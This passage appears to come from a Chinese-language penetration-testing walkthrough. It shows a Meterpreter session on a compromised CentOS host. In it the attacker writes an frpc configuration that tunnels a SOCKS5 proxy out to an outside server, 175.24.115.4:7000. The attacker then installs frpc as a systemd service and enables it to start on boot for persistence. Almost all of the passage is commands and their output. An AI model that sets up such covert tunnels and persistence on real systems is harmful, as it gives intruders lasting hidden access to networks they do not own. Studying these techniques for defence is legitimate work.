 ```shell
100755/rwxr-xr-x  13934592  fil   2021-10-13 03:24:10 -0400  frps
100644/rw-r--r--  26        fil   2021-10-13 03:24:09 -0400  frps.ini
100644/rw-r--r--  5010      fil   2021-10-13 03:24:09 -0400  frps_full.ini
40755/rwxr-xr-x   88        dir   2021-10-13 03:24:09 -0400  systemd

meterpreter > edit frpc.ini

如下：
[common]
server_addr = 175.24.115.4
server_port = 7000


[socks9999]
type = tcp
remote_port = 9999
plugin = socks5
use_encryption = true
use_compression = true
```

```shell
meterpreter > mv frpc /usr/bin/frpc             #移动frpc客户端到/usr/bin/
meterpreter > mkdir /etc/frp                   #创建/etc/frp文件夹
Creating directory: /etc/frp                   
meterpreter > mv frpc.ini /etc/frp/frpc.ini    #移动frpc.ini客户端配置文件到/etc/frp/
meterpreter > mv ./systemd/frpc.service /usr/lib/systemd/system/frpc.service  #添加systemctl服务，
meterpreter > shell                            #进入shell
Process 10218 created.
Channel 4 created.
chmod +x /usr/bin/frpc                          #给frpc客户端执行权限
systemctl start frpc                            #通过systemctl方式启动
systemctl enable frpc							#开启自启动
Created symlink from /etc/systemd/system/multi-user.target.wants/frpc.service to /usr/lib/systemd/system/frpc.service.
exit                                            #退出
```



在Centos：192.168.111.138，验证是否开启：`systemctl status frpc`

![image-20211013162322493](assets/image-20211013162322493.png)
